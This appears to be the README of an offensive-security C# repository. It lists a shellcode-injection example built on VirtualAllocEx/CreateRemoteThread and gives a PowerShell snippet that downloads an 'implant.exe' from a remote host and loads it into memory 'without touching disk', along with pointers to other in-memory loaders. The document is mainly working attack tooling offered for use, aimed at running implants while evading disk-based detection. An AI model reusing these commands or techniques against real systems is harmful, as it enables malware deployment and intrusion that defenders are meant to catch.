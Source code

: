 <p align="center">
  <img src="../_resources/img/0003.png">
</p>

# OffsecDev: C#

### Table of Contents
  * [Examples](#examples)
  * [Execution](#execution)

## Examples
| File                                       | Description |
|--------------------------------------------| ----------- |
| [classic_injection.cs](src/classic_injection.cs) | Inject shellcode into a remote process using ```VirtualAllocEx```/```CreateRemoteThread```. |

## Execution
* Use the PowerShell code below to Load .Net assemblies without touching disk:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://10.0.0.1/implant.exe')
[System.Reflection.Assembly]::Load($data)
[<program_name>.Program]::Main(<parameters>)
```

* Alternatively, projects such as [EAPrimer](https://github.com/m8r0wn/EAPrimer) and [NetLoader](https://github.com/Flangvik/NetLoader) can be used as well. 
